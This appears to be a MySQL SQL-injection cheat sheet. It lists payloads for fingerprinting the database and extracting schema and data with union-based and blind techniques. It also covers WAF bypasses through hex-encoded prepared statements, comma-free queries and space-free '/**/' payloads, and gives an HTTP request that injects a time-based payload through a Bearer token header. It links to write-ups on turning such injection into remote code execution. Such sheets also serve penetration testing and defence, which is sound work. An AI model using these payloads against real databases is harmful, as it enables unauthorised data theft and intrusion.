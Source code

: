 # MySQL injection



## Comments

```sql
-- MYSQL Comment
# MYSQL Comment
/* MYSQL Comment */
/*! MYSQL Special SQL */
/*!32302 10*/ Comment for MySQL version 3.23.02
```
```
## Interesting Functions

### Confirm Mysql:

```
concat('a','b')
database()
version()
user()
system_user()
@@version
@@datadir
rand()
floor(2.9)
length(1)
count(1)
```
```
### Useful functions

```sql
SELECT hex(database())
SELECT conv(hex(database()),16,10) # Hexadecimal -> Decimal
SELECT DECODE(ENCODE('cleartext', 'PWD'), 'PWD')# Encode() & decpde() returns only numbers
SELECT uncompress(compress(database())) #Compress & uncompress() returns only numbers
SELECT replace(database(),"r","R")
SELECT substr(database(),1,1)='r'
SELECT substring(database(),1,1)=0x72
SELECT ascii(substring(database(),1,1))=114
SELECT database()=char(114,101,120,116,101,115,116,101,114)
SELECT group_concat(<COLUMN>) FROM <TABLE>
SELECT group_concat(if(strcmp(table_schema,database()),table_name,null))
SELECT group_concat(CASE(table_schema)When(database())Then(table_name)END)
strcmp(),mid(),,ldap(),rdap(),left(),rigth(),instr(),sleep()
```
```
## All injection

```sql
SELECT * FROM some_table WHERE double_quotes = "IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR"*/"
```
```
from [[https://labs.detectify.com/2013/05/29/the-ultimate-sql-injection-payload/|https://labs.detectify.com/2013/05/29/the-ultimate-sql-injection-payload/]]

## Flow

Remember that in "modern" versions of **MySQL** you can substitute "_**information_schema.tables**_" for "_**mysql.innodb_table_stats**_**"** (This could be useful to bypass WAFs).

```sql
SELECT table_name FROM information_schema.tables WHERE table_schema=database();#Get name of the tables
SELECT column_name FROM information_schema.columns WHERE table_name="<TABLE_NAME>"; #Get name of the columns of the table
SELECT <COLUMN1>,<COLUMN2> FROM <TABLE_NAME>; #Get values
SELECT user FROM mysql.user WHERE file_priv='Y'; #Users with file privileges
```
```
### **Only 1 value**

- `group_concat()`
- `Limit X,1`

### **Blind one by one**

- `substr(version(),X,1)='r'` or `substring(version(),X,1)=0x70` or `ascii(substr(version(),X,1))=112`
- `mid(version(),X,1)='5'`

### **Blind adding**

- `LPAD(version(),1...lenght(version()),'1')='asd'...`
- `RPAD(version(),1...lenght(version()),'1')='asd'...`
- `SELECT RIGHT(version(),1...lenght(version()))='asd'...`
- `SELECT LEFT(version(),1...lenght(version()))='asd'...`
- `SELECT INSTR('foobarbar', 'fo...')=1`

## Detect number of columns

Using a simple ORDER

```
order by 1
order by 2
order by 3
...
order by XXX

UniOn SeLect 1
UniOn SeLect 1,2
UniOn SeLect 1,2,3
...
```
```
## MySQL Union Based

```sql
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,schema_name,0x7c)+fRoM+information_schema.schemata
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,table_name,0x7C)+fRoM+information_schema.tables+wHeRe+table_schema=...
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,column_name,0x7C)+fRoM+information_schema.columns+wHeRe+table_name=...
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,data,0x7C)+fRoM+...
```
```
## SSRF

**Learn here different options to** [[mysql-ssrf.md|**abuse a Mysql injection to obtain a SSRF**]]**.**

## WAF bypass tricks

### Executing queries through Prepared Statements

When stacked queries are allowed, it might be possible to bypass WAFs by assigning to a variable the hex representation of the query you want to execute (by using SET), and then use the PREPARE and EXECUTE MySQL statements to ultimately execute the query. Something like this:

```
0); SET @query = 0x53454c45435420534c454550283129; PREPARE stmt FROM @query; EXECUTE stmt; #
```
```
For more information please refer to [[https://karmainsecurity.com/impresscms-from-unauthenticated-sqli-to-rce|this blog post]].

### Information_schema alternatives

Remember that in "modern" versions of **MySQL** you can substitute _**information_schema.tables**_ for _**mysql.innodb_table_stats**_ or for _**sys.x$schema_flattened_keys**_ or for **sys.schema_table_statistics**

### MySQLinjection without COMMAS

Select 2 columns without using any comma ([[https://security.stackexchange.com/questions/118332/how-make-sql-select-query-without-comma)|https://security.stackexchange.com/questions/118332/how-make-sql-select-query-without-comma]]:

```
-1' union select * from (select 1)UT1 JOIN (SELECT table_name FROM mysql.innodb_table_stats)UT2 on 1=1#
```
```
### Retrieving values without the column name

If at some point you know the name of the table but you don't know the name of the columns inside the table, you can try to find how may columns are there executing something like:

```bash
# When a True is returned, you have found the number of columns
select (select "", "") = (SELECT * from demo limit 1);     # 2columns
select (select "", "", "") < (SELECT * from demo limit 1); # 3columns
```
```
Supposing there is 2 columns (being the first one the ID) and the other one the flag, you can try to bruteforce the content of the flag trying character by character:

```bash
# When True, you found the correct char and can start ruteforcing the next position
select (select 1, 'flaf') = (SELECT * from demo limit 1);
```
```
More info in [[https://medium.com/@terjanq/blind-sql-injection-without-an-in-1e14ba1d4952|https://medium.com/@terjanq/blind-sql-injection-without-an-in-1e14ba1d4952]]

### Injection without SPACES (`/**/` comment trick)

Some applications sanitise or parse user input with functions such as `sscanf("%128s", buf)` which **stop at the first space character**.  
Because MySQL treats the sequence `/**/` as a comment *and* as whitespace, it can be used to completely remove normal spaces from the payload while keeping the query syntactically valid.

Example time-based blind injection bypassing the space filter:

```http
GET /api/fabric/device/status HTTP/1.1
Authorization: Bearer AAAAAA'/**/OR/**/SLEEP(5)--/**/-'
```
```
Which the database receives as:

```sql
' OR SLEEP(5)-- -'
```
```
This is especially handy when:

* The controllable buffer is restricted in size (e.g. `%128s`) and spaces would prematurely terminate the input.
* Injecting through HTTP headers or other fields where normal spaces are stripped or used as separators.
* Combined with `INTO OUTFILE` primitives to achieve full pre-auth RCE (see the MySQL File RCE section).

---

### MySQL history

You ca see other executions inside the MySQL reading the table: **sys.x$statement_analysis**

### Version alternative**s**

```
mysql> select @@innodb_version;
mysql> select @@version;
mysql> select version();
```
```
## Other MYSQL injection guides

- [[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md|PayloadsAllTheThings – MySQL Injection cheatsheet]]

## References

- [[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md|PayloadsAllTheThings – MySQL Injection cheatsheet]]
- [[https://labs.watchtowr.com/pre-auth-sql-injection-to-rce-fortinet-fortiweb-fabric-connector-cve-2025-25257/|Pre-auth SQLi to RCE in Fortinet FortiWeb (watchTowr Labs)]]




